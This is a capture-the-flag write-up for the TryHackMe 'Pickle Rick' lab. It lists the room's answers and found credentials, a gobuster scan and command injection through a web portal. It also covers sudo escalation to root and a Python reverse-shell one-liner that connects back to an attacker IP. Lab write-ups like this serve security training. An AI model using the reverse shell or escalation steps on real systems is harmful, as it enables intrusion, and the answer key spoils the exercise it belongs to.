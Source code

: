 ## TryHackMe | Pickle Rick
https://tryhackme.com/room/picklerick

---

IP: 10.10.37.39\
URL: https://10-10-37-39.p.thmlabs.com/

### Questions: 
1. What is the first ingredient Rick needs?  
Answer: mr. meeseek hair\
Location: http://10.10.37.39/Sup3rS3cretPickl3Ingred.txt or `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. Whats the second ingredient Rick needs?  
Answer: 1 jerry tear\
Location: `/home/rick/"second ingredients"`

3. Whats the final ingredient Rick needs?
Answer: fleeb juice\
Location: `/root/3rd.txt`

---
### Methods

From url:\
Username: R1ckRul3s

From robots.txt:\
Password: Wubbalubbadubdub


1. Run gobuster scan with extensions lookup (txt,html,css,js,py,php)
> ```bash
> gobuster dir -u http://10.10.246.225 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,css,js,html,txt,py,cgi,sh
> ```

2. Go to the URL as above, respective to given IP.
3. From the gobuster results, go to the `portal.php` page. 
4. Using the username and password received in index.html and robots.txt respectively, login to portal page.
5. Run `ls` command to find the first secret ingredient text file. Use `less` to display the file since cat, more and others are blacklisted. Read the notes below**
> Inspect the `portal.php` for blacklisted command
> 
> Blacklisted command:
> > "cat", "head", "more", "tail", "nano", "vim", "vi"
6. You have found all the info needed to find the second ingredients in `/home/rick`
7. Check `sudo -l` to find what can be run as sudo
8. Use sudo to display the file in /root by running the command in the `portal.php` command field
> ```bash
> sudo less /root/3rd.txt
> ```


**Another method to solve all this is by establishing reverse shell connection thru the `portal.php` command field. **

1. Setup netcat listener at port 9999
2. Run the following python revshell payload into the `portal.php` command field.
Python3 revshell payload:
> ```bash
> python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.26.94",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
> ```
3. In this machine, the user has unlimited sudo privilege. go to root with `sudo bash`

---
### Notes

- Alternatives to cat,more,less
> `grep . <filename>`

- Inspect `portal.php` for restricted commands
- There is a base64 text in `portal.php` that translated to "rabbit hole"
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

- Alternatively, run python and netcat to establish reverse shell
